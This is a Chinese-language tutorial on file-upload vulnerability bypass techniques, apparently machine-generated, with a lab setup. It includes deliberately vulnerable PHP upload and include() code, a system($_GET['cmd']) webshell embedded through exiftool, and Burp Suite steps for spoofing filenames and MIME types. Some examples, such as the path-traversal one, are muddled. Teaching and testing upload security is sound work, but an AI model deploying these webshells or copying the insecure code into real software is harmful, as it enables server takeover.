 # 文件上传漏洞绕过技巧的攻击技术

## 1. 技术原理解析

文件上传漏洞是指攻击者能够通过Web应用程序的文件上传功能，上传恶意文件到服务器，从而执行任意代码或获取系统权限。这种漏洞通常是由于开发者未对上传的文件进行严格的验证和过滤导致的。

### 1.1 文件上传漏洞的底层机制

文件上传漏洞的核心在于服务器端对上传文件的处理逻辑。常见的漏洞点包括：

- **文件类型验证不严格**：服务器仅通过文件扩展名或MIME类型来判断文件类型，而忽略了文件内容的实际类型。
- **文件内容未过滤**：服务器未对上传文件的内容进行安全检查，导致恶意代码被执行。
- **文件存储路径不安全**：上传的文件被存储在Web可访问的目录中，攻击者可以直接访问并执行这些文件。

### 1.2 文件上传漏洞的常见攻击手法

1. **文件扩展名绕过**：通过修改文件扩展名或使用特殊字符绕过服务器的文件类型验证。
2. **MIME类型伪造**：通过伪造MIME类型，使服务器误判文件类型。
3. **文件内容伪装**：在文件中嵌入恶意代码，但保持文件格式的合法性，如将PHP代码嵌入图片文件中。
4. **路径遍历攻击**：通过构造特殊的文件名，将文件上传到非预期的目录中。

## 2. 变种和高级利用技巧

### 2.1 文件扩展名绕过

**变种1：双扩展名绕过**
- **原理**：服务器仅检查最后一个扩展名，攻击者可以使用类似`shell.php.jpg`的文件名绕过验证。
- **利用方式**：上传`shell.php.jpg`文件，服务器可能仅检查`.jpg`扩展名，而忽略`.php`。

**变种2：大小写混淆**
- **原理**：服务器对扩展名的大小写敏感，攻击者可以使用`shell.PHP`或`shell.PhP`等文件名绕过验证。
- **利用方式**：上传`shell.PHP`文件，服务器可能仅检查小写的`.php`扩展名。

### 2.2 MIME类型伪造

**变种1：伪造MIME类型**
- **原理**：服务器通过MIME类型判断文件类型，攻击者可以伪造MIME类型为`image/jpeg`，而实际文件为PHP脚本。
- **利用方式**：使用Burp Suite等工具修改上传请求中的MIME类型为`image/jpeg`，上传PHP文件。

**变种2：多部分表单数据伪造**
- **原理**：服务器在处理多部分表单数据时，可能仅检查第一个`Content-Type`，攻击者可以在后续部分中插入恶意文件。
- **利用方式**：构造多部分表单数据，第一个部分为合法文件，后续部分为恶意文件。

### 2.3 文件内容伪装

**变种1：图片马**
- **原理**：将PHP代码嵌入图片文件中，保持图片格式的合法性，服务器可能误判为图片文件。
- **利用方式**：使用工具如`exiftool`将PHP代码嵌入图片的EXIF信息中，上传后通过文件包含漏洞执行。

**变种2：压缩文件伪装**
- **原理**：将恶意文件打包为压缩文件，服务器解压后执行恶意文件。
- **利用方式**：上传包含恶意文件的压缩包，服务器解压后执行恶意文件。

### 2.4 路径遍历攻击

**变种1：目录遍历**
- **原理**：通过构造特殊的文件名，将文件上传到非预期的目录中，如`../../uploads/shell.php`。
- **利用方式**：上传文件名为`../../uploads/shell.php`的文件，服务器可能将其存储到`uploads`目录中。

**变种2：空字节截断**
- **原理**：服务器在处理文件名时，可能忽略空字节后的内容，攻击者可以使用`shell.php%00.jpg`绕过验证。
- **利用方式**：上传文件名为`shell.php%00.jpg`的文件，服务器可能仅处理`shell.php`部分。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

**工具准备**：
- **Web服务器**：Apache或Nginx
- **PHP环境**：安装PHP并配置Web服务器
- **Burp Suite**：用于拦截和修改HTTP请求
- **Exiftool**：用于修改图片文件的EXIF信息

**实验步骤**：
1. 在Web服务器上创建一个文件上传页面，代码如下：
   ```php
   <?php
   if ($_FILES["file"]["error"] > 0) {
       echo "Error: " . $_FILES["file"]["error"] . "<br>";
   } else {
       move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/" . $_FILES["file"]["name"]);
       echo "File uploaded successfully.";
   }
   ?>
   ```
2. 在Web根目录下创建`uploads`目录，用于存储上传的文件。

### 3.2 攻击步骤

**步骤1：文件扩展名绕过**
1. 使用Burp Suite拦截文件上传请求。
2. 修改文件名为`shell.php.jpg`，上传文件。
3. 访问`http://yourserver/uploads/shell.php.jpg`，验证是否执行PHP代码。

**步骤2：MIME类型伪造**
1. 使用Burp Suite拦截文件上传请求。
2. 修改`Content-Type`为`image/jpeg`，上传PHP文件。
3. 访问上传的文件，验证是否执行PHP代码。

**步骤3：图片马**
1. 使用`exiftool`将PHP代码嵌入图片文件中：
   ```bash
   exiftool -Comment='<?php echo system($_GET["cmd"]); ?>' image.jpg
   ```
2. 上传修改后的图片文件。
3. 通过文件包含漏洞执行图片中的PHP代码。

**步骤4：路径遍历攻击**
1. 使用Burp Suite拦截文件上传请求。
2. 修改文件名为`../../uploads/shell.php`，上传文件。
3. 访问`http://yourserver/uploads/shell.php`，验证是否执行PHP代码。

## 4. 实际命令、代码或工具使用说明

### 4.1 Burp Suite使用

1. 启动Burp Suite，配置浏览器代理为`127.0.0.1:8080`。
2. 拦截文件上传请求，右键选择`Send to Repeater`。
3. 在Repeater中修改文件名或MIME类型，发送请求。

### 4.2 Exiftool使用

1. 安装Exiftool：
   ```bash
   sudo apt-get install libimage-exiftool-perl
   ```
2. 修改图片文件的EXIF信息：
   ```bash
   exiftool -Comment='<?php echo system($_GET["cmd"]); ?>' image.jpg
   ```

### 4.3 文件包含漏洞利用

1. 在Web服务器上创建一个文件包含页面，代码如下：
   ```php
   <?php include($_GET['file']); ?>
   ```
2. 通过URL参数包含上传的图片文件：
   ```bash
   http://yourserver/include.php?file=uploads/image.jpg
   ```

## 结论

文件上传漏洞绕过技巧的攻击技术多种多样，攻击者可以通过修改文件扩展名、伪造MIME类型、伪装文件内容以及路径遍历等方式绕过服务器的安全验证。开发者应加强对上传文件的验证和过滤，确保文件内容的安全性，防止恶意文件的上传和执行。

---

*文档生成时间: 2025-03-11 12:57:11*

